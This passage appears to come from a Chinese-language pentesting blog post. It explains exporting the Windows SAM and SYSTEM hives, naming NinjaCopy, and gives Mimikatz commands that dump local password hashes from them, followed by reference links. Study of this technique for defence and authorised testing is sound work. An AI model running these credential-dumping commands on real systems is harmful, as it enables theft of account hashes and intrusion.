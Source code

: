   这些文件默认无法被复制，可以通过NinjaCopy等脚本进行导出，导出后可以在其他系统上进行加载，这里我将文件下载到主系统上进行导出，执行以下命令
  
  ```shell
  privilege::debug
  lsadump::sam /sam:SamBkup.hiv /system:SystemBkup.hiv
  ```
  
  ![dumphiv](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long-long/dumphiv.png)

关于SAM导出的原理分析：https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87SAM%E6%95%B0%E6%8D%AE%E5%BA%93%E8%8E%B7%E5%BE%97%E6%9C%AC%E5%9C%B0%E7%94%A8%E6%88%B7hash

## 参考链接：

https://xz.aliyun.com/t/8601

https://msrc.microsoft.com/blog/2014/06/an-overview-of-kb2871997/

https://ssooking.github.io/2020/07/mimikatz%E6%8A%93%E5%8F%96%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81/

